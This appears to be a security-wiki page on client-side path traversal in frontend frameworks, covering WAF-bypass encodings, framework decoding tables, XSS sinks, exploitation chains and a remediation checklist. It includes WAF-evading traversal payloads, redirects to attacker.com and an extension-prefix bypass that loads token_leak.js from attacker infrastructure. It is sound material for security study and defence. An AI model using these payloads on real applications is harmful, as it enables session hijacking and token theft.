

# Client-Side Path Traversal (CSPT) & Client Routing Redirection


<!-- TOC_START -->
## Table of Contents
- [Overview](#overview)
- [Input Sources: Query vs. Path Parameters](#input-sources-query-vs-path-parameters)
- [WAF Bypass Methodology for Path Traversal](#waf-bypass-methodology-for-path-traversal)
  - [Bypass Scenarios:](#bypass-scenarios)
- [CSPT Across Every Major Frontend Framework](#cspt-across-every-major-frontend-framework)
  - [1. Path Parameter Decoding (`%2F` & `%2E%2E`)](#1-path-parameter-decoding-2f-2e2e)
  - [2. Query Parameters (Decoded Everywhere)](#2-query-parameters-decoded-everywhere)
  - [3. XSS Escalation Sinks by Framework](#3-xss-escalation-sinks-by-framework)
  - [4. Safe Sources (Resistant to CSPT)](#4-safe-sources-resistant-to-cspt)
  - [5. Server-Side Secondary Traversal Sinks (SSRF Escalation)](#5-server-side-secondary-traversal-sinks-ssrf-escalation)
- [Exploitation Chains & Attack Scenarios](#exploitation-chains-attack-scenarios)
  - [1. CSPT -> Open Redirect -> XSS](#1-cspt-open-redirect-xss)
  - [2. CSPT -> JSONP / Endpoint Redirection -> XSS](#2-cspt-jsonp-endpoint-redirection-xss)
  - [3. CSPT -> CSRF Rescue / hDOM Request Hijacking](#3-cspt-csrf-rescue-hdom-request-hijacking)
  - [4. Non-Happy Path Extension Scheme Traversal](#4-non-happy-path-extension-scheme-traversal)
- [Remediation Checklist](#remediation-checklist)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## Overview
Client-Side Path Traversal (CSPT) occurs when attacker-controlled input that is not properly encoded lands in the path component of a URL which the **JavaScript code of an application** subsequently dispatches via dynamic request sinks (`fetch()`, `XMLHttpRequest`, dynamic script loaders). By injecting directory traversal sequences (`../`), an attacker steers client-side API requests toward arbitrary endpoints within or outside the intended route tree.

While server-side path traversal attacks local filesystems (e.g. `/etc/passwd`), CSPT executes in the **victim's browser context**, manipulating client routing to dispatch **fully authenticated requests (hDOM)** carrying the victim's session cookies, Authorization headers, and internal tokens.

## Input Sources: Query vs. Path Parameters
- **Query Parameter Source**: `https://example.com/viewpost?p=../../../asdf`
- **Path Parameter Source (REST APIs)**: `https://example.com/viewpost/..%2f..%2f..%2fredirect%3fu=https:%2f%2fattacker.com`
  - In path parameter injection, intermediate reverse proxies, WAFs, and browser normalization rules evaluate traversal sequences differently, requiring encoding alignment.

## WAF Bypass Methodology for Path Traversal
To defeat Web Application Firewall (WAF) path traversal inspection on client-side requests, determine four operational variables:
1. **Depth**: Equal to the number of directories in the path minus the number of `../` sequences.
2. **Encoding Level**: The number of repeated URL-decoding cycles required to resolve the string (e.g. `b%252561 -> b%2561 -> b%61 -> ba` represents level 3).
3. **WAF Decoding Level**: The number of decode cycles the WAF performs before checking path depth.
4. **Application Decoding Level**: The number of decode cycles the frontend framework/application performs before passing the URL to `fetch()`.

> [!note] Browser Encoding Equivalence
> Modern browsers treat `%2e%2e/` sequences identically to `../` sequences, even though the dot characters are URL-encoded.

### Bypass Scenarios:
- **Scenario A: WAF Level < App Level**:
  Encode the payload repeatedly until the WAF fails to recognize the traversal sequences, while the application decodes them fully:
  ```http
  ..%252f..%252f..%252fasdf
  ```
  The WAF sees `%252f` as inert text (depth > 0), but the frontend decodes it twice into `../../../asdf`.
- **Scenario B: WAF Level > App Level**:
  Include multiple encoded directory prefixes that the WAF normalizes away but the application preserves:
  ```http
  a%252fa%252fa%252fa%2f..%2f..%2f..%2f..%2fasdf
  ```
  The WAF decodes this to `a/a/a/a/../../../../asdf` (evaluating depth to 0). The application only decodes once to `a%2fa%2fa%2fa/../../../../asdf`, resolving to `../../../asdf`.
- **Scenario C: WAF Level == App Level**:
  Deploy dot-encoded sequences that both the WAF and the browser evaluate:
  ```http
  %252e%252e%2f%252e%252e%2f%252e%252e%2fredirect?u=https://attacker.com
  ```
  The WAF decodes this to `%2e%2e/%2e%2e/%2e%2e/redirect`, which has positive depth and is allowed. The application decodes once, passing the `%2e%2e/` URL to `fetch()`, which the browser resolves as `../../redirect`.

## CSPT Across Every Major Frontend Framework

### 1. Path Parameter Decoding (`%2F` & `%2E%2E`)

| Framework | Parameter Source | `%2F` -> `/`? | `%2E%2E` -> `..`? | Double Encode (`%252F`)? | Internal Decode Function |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **React Router** | `useParams()` | **YES** | **YES** | **YES** (decode + replace) | `decodeURIComponent` + `.replace(/%2F/g, "/")` |
| **Next.js** | `useParams()` / page `await params` | **NO** (re-encoded) | **YES** | **NO** | `getParamValue()` re-encodes `%2F` |
| **Next.js** | Route handler `await params` | **YES** | **YES** | **NO** | `getRouteMatcher()` -> `decode` |
| **Vue Router** | `route.params.*` | **YES** | **YES** | **NO** | `decodeURIComponent` via `decodeParams()` |
| **Nuxt (Client)** | `useRoute().params.*` | **YES** | **YES** | **NO** | Inherits Vue Router `decodeParams()` |
| **Nuxt (Server)** | `getRouterParam(event, 'id')` | **NO** | **NO** | **NO** | Raw radix3 string (no decode by default) |
| **Nuxt (Server)** | `getRouterParam(..., { decode: true })`| **YES** | **YES** | **NO** | `decodeURIComponent` |
| **Angular** | `paramMap.get()` | **YES** | **YES** | **NO** | `decodeQuery()` -> `decodeURIComponent` |
| **SvelteKit** | `params.*` in load functions | **YES** | **YES** | **NO** (`%25`-split blocks) | `decode_pathname()` + `decode_params()` |
| **Ember (`:param`)**| `params.*` in model hook | **YES** | **YES** | **NO** | `normalizePath()` + `decodeURIComponent` |
| **Ember (`*wildcard`)**| `params.*` in model hook | **NO** | Partial | **NO** | `normalizePath()` only |
| **SolidStart** | `useParams()` | **NO** | **NO** | **NO** | Raw from URL (no decode) |

### 2. Query Parameters (Decoded Everywhere)
Every modern frontend framework decodes query parameters without exception:
- **React Router**: `useSearchParams()` (standard `URLSearchParams`)
- **Next.js**: `useSearchParams()` / `searchParams`
- **Vue Router / Nuxt**: `route.query.*` (`parseQuery()`, `+` remains literal)
- **Angular**: `queryParamMap.get()` (`decodeQuery()`)
- **SvelteKit**: `url.searchParams` / `$page.url.searchParams`
- **SolidStart**: `useSearchParams()`

### 3. XSS Escalation Sinks by Framework

| Framework | Dangerous Render Sink | Syntax | Underlying Compilation |
| :--- | :--- | :--- | :--- |
| **React / Next.js** | `dangerouslySetInnerHTML` | `<div dangerouslySetInnerHTML={{ __html: val }} />` | `element.innerHTML = val` |
| **Vue / Nuxt** | `v-html` | `<div v-html="val" />` | `element.innerHTML = val` |
| **Angular** | `[innerHTML]` + bypass | `<div [innerHTML]="val">` with `bypassSecurityTrustHtml` | `element.innerHTML = val` (sanitizer bypassed) |
| **SvelteKit** | `{@html}` | `{@html val}` | `element.innerHTML = val` |
| **Ember** | Triple curlies / `htmlSafe` | `{{{val}}}` or `htmlSafe(val)` | `element.insertAdjacentHTML('beforeend', val)` |
| **SolidStart** | `innerHTML` | `<div innerHTML={val} />` | `element.innerHTML = val` |

### 4. Safe Sources (Resistant to CSPT)
- **React Router**: `useLocation().pathname` (preserves `%2F` encoding).
- **Next.js**: `useParams()` on page components (re-encodes `%2F`).
- **Vue / Nuxt**: `route.path` and `route.fullPath` (preserves `%2F`).
- **Angular**: `router.url` (preserves `%2F`).
- **SvelteKit**: Param matchers (`[id=id]`) reject traversal sequences at route level.
- **SolidStart**: Single-segment `useParams()` (router never invokes `decodeURIComponent`).

### 5. Server-Side Secondary Traversal Sinks (SSRF Escalation)
When frameworks render on the server (SSR), client parameter traversal escalates into internal Server-Side Request Forgery:
- **Next.js**: Route handler `await params` passed into `fetch()` dispatches requests from server node to internal microservices.
- **Nuxt**: `getRouterParam(event, 'id', { decode: true })` passed into `$fetch()`.
- **SvelteKit**: Server load function `+page.server.ts` params passed into `fetch()`, bypassing client CORS and security hooks.

## Exploitation Chains & Attack Scenarios

### 1. CSPT -> Open Redirect -> XSS


### 2. CSPT -> JSONP / Endpoint Redirection -> XSS
By steering requests to legacy JSONP endpoints (`/api/legacy?callback=alert(document.domain)//`), the resulting script execution occurs in the origin context.

### 3. CSPT -> CSRF Rescue / hDOM Request Hijacking
When modern Single Page Applications protect state-changing endpoints with custom anti-CSRF headers or SameSite cookies, external HTML forms cannot trigger them.
- However, if an authenticated client page uses `fetch()` with credentials, injecting `../` steers the client into invoking sensitive state-changing endpoints (e.g. `/api/v1/workspace/join?id=attacker_ws`).
- The browser attaches all credentials and custom headers automatically (**hDOM**).

### 4. Non-Happy Path Extension Scheme Traversal
In desktop clients and IDE extensions (e.g. Windsurf):
```javascript
// Target allows chrome-extension:// scheme prefix
if (url.startsWith("chrome-extension://" + EXT_ID)) {
  location.assign(url);
}
```
- Attacker deploys: `chrome-extension://<EXT_ID>/../../attacker.com/token_leak.js`.
- Bypasses prefix validation and steers token loading to attacker infrastructure.

## Remediation Checklist
1. **Canonical Path Resolution**: Resolve all paths via `new URL(userInput, window.location.origin)` and verify `resolved.pathname.startsWith('/expected/prefix/')`.
2. **Reject Traversal Tokens**: Block `%2f`, `%2e`, `..`, and encoded variants before parameter consumption.
3. **Decouple Parameters from URLs**: Map user input to enumerated IDs rather than passing raw strings into request generators.

## Related Pages
- [[web-and-bug-bounty]]
- [[cspt-vs-path-traversal]]
- [[open-redirect-attacks]]
- [[dom-debugging-and-sink-analysis]]
- [[account-takeover-and-auth-flaws]]
- [[bug-bounty-live-hunts-case-studies]]